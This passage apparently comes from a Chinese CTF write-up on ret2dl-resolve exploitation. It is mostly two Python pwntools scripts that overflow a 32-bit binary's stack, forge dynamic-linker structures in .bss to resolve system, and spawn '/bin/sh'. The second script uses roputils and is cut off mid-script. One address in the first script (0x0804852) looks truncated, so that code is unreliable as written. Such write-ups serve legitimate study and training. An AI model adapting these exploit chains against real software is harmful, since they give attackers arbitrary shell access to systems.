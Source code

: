 ```python
'''
offset = 44
bssaddr = elf.bss()

readplt = 0x08048390
vulFunc = 0x0804852
jmprel = 0x0804833C
symtable = 0x080481DC
strtable = 0x0804827C
plt0 = 0x08048380


fakerelt = bssaddr + 4*5 - jmprel  #0x1d18
fakesymtable = bssaddr + 4*11 - symtable
fakestr = 0x804a080-strtable

pay1 = 'a'*44
pay1+= p32(readplt) + p32(vulFunc) + p32(0) + p32(bssaddr) + p32(100)
p.send(pay1)

pay2 = '/bin/sh\x00'+'A'*12
pay2 += p32(bssaddr+8) + p32(fakesymtable*0x10+7) + 'A'*16 + p32(fakestr) + p32(0) + p32(0) + p32(0x12) + 'AAAA'
pay2 += 'system\x00'

p.send(pay2)

pay3 = 'A'*44
pay3+= p32(plt0)
pay3 += p32(fakerelt)
pay3 += 'aaaa'
pay3 += p32(elf.bss())

p.send(pay3)

p.interactive()
```

![5cbee9f27437d](https://i.loli.net/2019/04/23/5cbee9f27437d.png)

当然，使用[roputil.py](https://github.com/eternalsakura/ctf_pwn/blob/master/roputils.py)这个库来自动化构造肯定是首选的，此处参考[sakura](http://eternalsakura13.com/2018/04/01/babystack/)师傅的exp:

```python
#coding:utf-8
import sys
import roputils
from pwn import *

offset = 44
readplt = 0x08048390
bss = 0x0804a020
vulFunc = 0x0804852D

rop = roputils.ROP('./pwn')
addr_bss = rop.section('.bss')

# step1 : write sh & resolve struct to bss
buf1 = 'A' * offset #44
buf1 += p32(readplt) + p32(vulFunc) + p32(0) + p32(addr_bss) + p32(100)
p.send(buf1)

buf2 =  rop.string('/bin/sh')
buf2 += rop.fill(20, buf2)
```